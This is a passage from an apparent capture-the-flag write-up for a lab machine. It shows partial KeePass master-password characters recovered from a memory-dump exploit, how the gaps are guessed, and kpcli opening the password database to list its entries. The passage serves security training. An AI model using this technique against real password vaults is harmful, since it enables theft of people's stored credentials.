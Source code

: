 ```
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde

```

It knows it doesn’t know the 0 char, but it also skips the 1, 5, and 14 char as well (5 and 14 show up as “ø” in the original POC). Still, it’s enough to continue.

### SSH

#### Find Master Password

The exploit has a limitation of not getting the first character. The DotNet version also gives a list of possibilities for the second character, and gets the rest. Searching for the string minus the first two characters is enough to find a known phrase:

![image-20240204160300809](https://0xdf.gitlab.io/img/image-20240204160300809.png)

It’s adding a “rø” to the front, which fits the pattern. Even the less complete output from the Python script works here:

![image-20240204160358454](https://0xdf.gitlab.io/img/image-20240204160358454.png)

#### KeePass

That password works to get into the `passcodes.kdbx` file using `kpcli` ( `apt install kpcli`):

```
oxdf@hacky$ kpcli --kdb passcodes.kdbx
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>

```

There are two entries in the `passcodes/Network` folder:

```
kpcli:/> ls passcodes/
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/> ls passcodes/Network/
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System

```
